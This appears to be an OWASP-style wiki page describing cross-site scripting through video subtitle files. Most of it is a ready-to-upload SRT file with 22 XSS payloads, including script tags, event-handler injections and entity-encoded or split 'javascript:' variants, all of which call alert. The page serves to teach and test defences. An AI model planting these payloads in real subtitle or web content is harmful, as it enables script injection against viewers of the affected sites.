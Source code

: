 ```yaml
---

layout: col-sidebar
title: XSS in subtitle
author: Mohammad MortazaviZade
contributors: 
permalink: /attacks/Xss_in_subtitle
tags: attack, Xss in subtitle

---
```


{% include writers.html %}

## Description

It is possible for an attacker to execute JavaScript in a video's
subtitle. This is also referred to as XSS (Cross-Site Scripting). If a
website loads subtitle separately in the browser then an attacker can run any
HTML or JavaScript in video subtitles. It has been tested on some video
services.

## Examples

The attacker can save the mentioned contents below by the format of `srt`
and upload prepared `srt` file as a video's subtitles.

```
1
﻿ 00:00:37,618 --\> 00:00:42,557
﻿ \<font color="\#ffff00"\>: '';\!--"\<XSS\>=&{()}\</font\>

2
﻿ 00:00:58,425 --\> 00:01:00,704
﻿ <IMG SRC="javascript:alert('XSS');">

3
﻿ 00:01:00,705 --\> 00:01:01,873
﻿ <IMG SRC=javascript:alert('XSS')>

4
﻿ 00:01:02,225 --\> 00:01:04,519
﻿ <IMG SRC=javascript:alert('XSS')>

5
﻿ 00:01:04,520 --\> 00:01:05,547
﻿ <IMG SRC=javascript:alert('XSS')>

6
﻿ 00:01:05,864 --\> 00:01:08,117
﻿ <IMG SRC=javascript:alert('XSS')>

7
﻿ 00:01:08,224 --\> 00:01:09,223
﻿ \<IMG """\>

    <SCRIPT>

    alert("XSS")

    </SCRIPT>

"\>

8
﻿ 00:01:09,224 --\> 00:01:10,434
﻿ <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

9
﻿ 00:01:11,384 --\> 00:01:12,427
﻿ <IMG SRC=# onmouseover="alert('xxs')">

10
﻿ 00:01:15,504 --\> 00:01:17,506
﻿ <IMG SRC= onmouseover="alert('xxs')">

11
﻿ 00:01:19,743 --\> 00:01:20,786
﻿ <IMG onmouseover="alert('xxs')">

12
﻿ 00:01:24,183 --\> 00:01:25,351
﻿ <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

13
﻿ 00:01:40,663 --\> 00:01:41,705
﻿
<img src=xonerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

14
﻿ 00:01:42,703 --\> 00:01:45,742
﻿ \<IMG SRC=<javascript:alert>( 'XSS')\>

15
﻿ 00:01:45,743 --\> 00:01:46,285
﻿ \<IMG SRC=&\#0000106&\#0000097&\#0000118&\#0000097&\#0000115&\#0000099&\#0000114&\#0000105&\#0000112&\#0000116&\#0000058&\#0000097&
\#0000108&\#0000101&\#0000114&\#0000116&\#0000040&\#0000039&\#0000088&\#0000083&\#0000083&\#0000039&\#0000041\>

16
﻿ 00:01:48,503 --\> 00:01:49,545
﻿ <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

17
﻿ 00:01:49,582 --\> 00:01:51,709
﻿ <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

18
﻿ 00:01:54,822 --\> 00:01:58,200
﻿ <IMG SRC="jav   ascript:alert('XSS');">

19
﻿ 00:02:01,021 --\> 00:02:03,691
﻿ <IMG SRC="jav
  ascript:alert('XSS');">

20
﻿ 00:02:04,702 --\> 00:02:05,744
﻿ <IMG SRC="javascript:alert('XSS');">

21
﻿ 00:02:15,700 --\> 00:02:18,536
﻿ \<IMG SRC="<javascript:alert>('XSS')"

22
﻿ 00:02:18,740 --\> 00:02:22,619
﻿ \\";alert('XSS');//
```
